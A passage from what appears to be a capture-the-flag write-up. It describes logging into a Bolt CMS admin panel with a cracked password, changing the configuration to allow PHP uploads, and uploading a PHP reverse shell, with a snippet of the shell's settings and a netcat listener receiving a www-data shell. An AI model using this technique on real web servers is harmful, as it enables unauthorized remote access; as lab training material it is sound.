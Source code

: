 ## Bolt CMS

We go to the [bolt](https://bolt.cm/) login interface.

![Bolt login interface](/media/2020.04/registry_3.png)

We connect as admin using the cracked password (`strawberry`).
There is a menu to upload some files. But the PHP files are not authorized.

![Bolt dashboard](/media/2020.04/registry_4.png)

![Upload files interface](/media/2020.04/registry_8.png)

As we are admin we can change this configuration in the "configuration/main
configuration" menu.

![Configuration menu](/media/2020.04/registry_5.png)

We just add the PHP files in the authorized extension and save the
configuration.

![Configuration menu, adding PHP](/media/2020.04/registry_7.png)

We can then upload our PHP reverse shell (from
`/usr/share/webshells/php/php-reverse-shell.php`). Pointing to our local
`netcat` running as bolt.

    :::PHP
    <?php
    <SNIP>
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 4343;       // CHANGE THIS
    $chunk_size = 1400;
    <SNIP>

![Reverse shell uploaded](/media/2020.04/registry_9.png)

    :::text
    bolt@bolt:~$ nc -l -p 4343
    Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    14:06:37 up  2:50,  2 users,  load average: 0.14, 0.08, 0.02
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    bolt     pts/2    10.10.15.63      11:35    2:21   0.01s  0.00s nc -l -p 4343
    bolt     pts/3    10.10.15.1       13:31   53.00s  0.03s  0.03s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

**Note: all the above operation must be done "quickly" as the bolt's
configuration and the uploaded files are reset every few minutes.** Once you get
the reverse shell the reset won't impact you anymore.
